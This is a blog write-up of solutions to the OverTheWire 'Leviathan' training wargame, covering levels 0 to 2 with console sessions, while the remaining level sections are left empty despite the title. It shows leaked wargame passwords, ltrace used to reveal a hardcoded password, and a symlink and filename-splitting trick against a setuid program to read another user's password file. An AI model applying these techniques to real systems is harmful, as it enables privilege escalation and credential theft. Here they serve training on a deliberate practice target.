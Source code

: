 ```yaml
---
layout: single
title: "OverTheWire: 'Leviathan' Solutions 1-8"
header:
  teaser: oth.png
  overlay_image: ZenBG.png
  caption: "[__OverTheWire__](http://overthewire.org/wargames/)"
related: true
comments: true
---
```


__Leviathan__: The leviathan is a large aquatic creature of some kind. The Bible refers to it as a fearsome beast having monstrous ferocity and great power. This word has become synonymous with any large sea monster or creature. In literature it refers to great whales, and in Modern Hebrew, it simply means "whale". And trust me... you will have a "whale" of a time with this wargame! Eh? EH? No? -- Fine, I'll see my way out...

Anyways, (hah "whale of a time"... I think I'm funny) ... anyways, Leviathan is a wargame that was rescued from the demise of intruded.net, previously hosted on __leviathan.intruded.net__. It can now be found [HERE](http://overthewire.org/wargames/leviathan/) at OverTheWire. The wargame consists of 8 levels and is classified as 1/10 difficulty. It also states that "*This wargame doesn't require any knowledge about programming - just a bit of common sense and some knowledge about basic *nix commands.*"

Though in all honesty, it requires a bit more then what they are stating. Before we begin, for anyone going through the levels and having a hard time, all I can say is - focus on the output of code and utilize the [ltrace](http://linux.die.net/man/1/ltrace) command.

So, let's begin... shall we?


### Level 0:
For the first level we must log into leviathan, so we will SSH to leviathan0 with the username: __leviathan0__ and password: __leviathan0__

```console
root@kali:~# ssh leviathan0@leviathan.labs.overthewire.org
```

OverTheWire provides us only with one hint "Data for the levels can be found in the __homedirectories__." So we are on our own!

Let's go ahead and find out what we have in our home directory.

```console
leviathan0@melinda:~$ ls -a
.  ..  .backup  .bash_logout  .bashrc  .profile
```

__.backup__ looks promising, so let's look in there and see if we can't find anything.

```console
leviathan0@melinda:~$ cd .backup
leviathan0@melinda:~/.backup$ ls -a
.  ..  bookmarks.html
leviathan0@melinda:~/.backup$ grep leviathan1 bookmarks.html
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

### Level 0 -> 1:
This level was fairly easy, and you can use a plethora of methods to find the password for this. First let's see what we have to work with.

```console
leviathan1@melinda:~$ ls -a
.  ..  .bash_logout  .bashrc  .profile  check
```

We can see that the home directory stores an executable called __check__, so let's run that and see what happens. 

```console
leviathan1@melissa:~$ ./check
password: 1234
Wrong password, Good Bye ...
```
Hmm... Okay, so it seems that the executable is checking for a password. That means that it's comparing it to something hardcoded. Let's run an `ltrace` and see what the library calls are for this program.

```console
leviathan1@melinda:~$ ltrace ./check
__libc_start_main(0x804852d, 1, 0xffffd7a4, 0x80485f0 <unfinished ...>
printf("password: ")                             = 10
getchar(0x8048680, 47, 0x804a000, 0x8048642password: 
)     = 10
getchar(0x8048680, 47, 0x804a000, 0x8048642
)     = 10
getchar(0x8048680, 47, 0x804a000, 0x8048642
)     = 10
strcmp("\n\n\n", "sex")                          = -1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)             = 29
+++ exited (status 0) +++
```

Looking at the output of the code we can see that the program is using `strcmp` which is a C library function to compare two strings against one another. In this example it's comparing the password input against the word "sex"; let's see if "sex" will work.

```console
leviathan1@melinda:~$ ./check
password: sex
$ whoami
leviathan2
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

And there we have the password! Now, if you think this was hard... it get's harder, so strap in as we move to leviathan2!


### Level 1 -> 2:
This level is really interesting in my honest opinion, as it allows you to exploit a flaw in the executable. It took me a while and a lot of [Google Fu](https://en.wiktionary.org/wiki/Google-fu) (yes, it's a thing) to finally figure out how the get the password from __/etc/leviathan_pass/leviathan3__.

```console
leviathan2@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan3 leviathan2 7498 Nov 14  2014 printfile
leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```

Alright, so it seems the program __printfile__ outputs the text from a file, just like `cat`, so we can assume that it's using cat somewhere in the code... but hold on a second. I like working smart, and not hard. Let's see if we can get the __leviathan3__ password file from __/etc/leviathan_pass/__

```console
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Darn... guess not. That's okay, let's go ahead and make a temp directory and a new text file for testing the program with `ltrace`.

```console
leviathan2@melinda:~$ mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt
leviathan2@melinda:~$ cd /tmp/jhalon
leviathan2@melinda:/tmp/jhalon$ ltrace ~/printfile test.txt
__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600 <unfinished ...>
access("test.txt", 4)                            = 0
snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17
system("/bin/cat test.txt" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```

So, what is happening here is a small security hole in how this program functions. We can see that the function `access()` and __/bin/cat__ are being called on the file. What `access()` does is check permissions based on the process’ real user ID rather than the effective user ID.

To explain: The real user id is who you really are (the one who owns the process), and the effective user id is what the operating system looks at to make a decision whether or not you are allowed to do something (most of the time, there are some exceptions). 

And if we look back into the previous `ltrace` output we can see that __printfile__ is owned by levianthan3, so `access()` will call the process with that specific privilege.

Looking into the code we also see that __/bin/cat__ is being called on the file to output the contents. While `access()` uses the full path's filename, __/bin/cat__ uses %s then the filename. What we can do here is try to add a space to a filename, and if we are correct, __/bin/cat__ will read the file as 2 separate files.

```console
leviathan2@melinda:/tmp/jhalon$touch pass\ file.txt
leviathan2@melinda:/tmp/jhalon$ ltrace ~/printfile "pass file.txt"
__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600 <unfinished ...>
access("pass file.txt", 4)                       = 0
snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22
system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
```

I was right! As you can see, __/bin/cat__ calls __pass file.txt__ as two separate files, __pass__ and __file.txt__. We can actually exploit this! Let’s go ahead and create a [symbolic link](https://en.wikipedia.org/wiki/Symbolic_link) for __pass file.txt__ and link it to __/etc/leviathan_pass/leviathan3__.

```console
leviathan2@melinda:/tmp/jhalon$ ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass
leviathan2@melinda:/tmp/jhalon$ ls -la
total 7864
drwxrwxr-x 2 leviathan2 leviathan2    4096 Sep 10 04:55 .
drwxrwx-wt 1 root       root       8036352 Sep 10 04:55 ..
lrwxrwxrwx 1 leviathan2 leviathan2      30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2       0 Sep 10 04:54 pass file.txt
leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"
Ahdiemoo1j
/bin/cat: file.txt: No such file or directory
```

And bingo was his name, OH! We got the password for leviathan3! Go do a victory lap around the house, you deserved it!

### Level 2 -> 3:

```console

```

### Level 3 -> 4:

```console

```

### Level 4 -> 5:

```console

```

### Level 5 -> 6:

```console

```

### Level 6 -> 7:

```console

```
